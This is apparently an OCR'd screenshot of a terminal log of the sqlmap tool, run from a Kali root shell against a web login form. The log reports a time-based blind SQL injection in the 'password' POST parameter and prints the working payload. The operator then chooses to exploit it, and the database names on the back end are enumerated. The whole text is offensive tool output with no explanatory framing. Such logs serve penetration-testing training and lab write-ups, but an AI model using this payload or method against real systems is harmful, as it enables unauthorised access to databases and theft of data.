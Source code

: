 ```jsx
[03:58:48] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[03:58:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:58:48] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[03:58:48] [INFO] checking if the injection point on POST parameter 'password' is a false positive
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 128 HTTP(s) requests:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=fPLr&password=' AND (SELECT 5612 FROM (SELECT(SLEEP(5)))WiKo) AND 'lvXp'='lvXp&submit= Login
---
do you want to exploit this SQL injection? [Y/n] Y
[03:59:04] [INFO] the back-end DBMS is MySQL
[03:59:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[03:59:05] [INFO] fetching database names
[03:59:05] [INFO] fetching number of databases
[03:59:05] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
4
[03:59:10] [INFO] retrieved: 
[03:59:20] [INFO] adjusting time delay to 2 seconds due to good response times
information_schema
[04:01:19] [INFO] retrieved: Webapp
[04:02:00] [INFO] retrieved: mysql
[04:02:34] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
**[*] Webapp**

[04:04:29] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.sqlmap/output/results-08252020_0358am.csv'
[04:04:29] [WARNING] you haven't updated sqlmap for more than 85 days!!!

[*] ending @ 04:04:29 /2020-08-25/

root@kali:~#
```
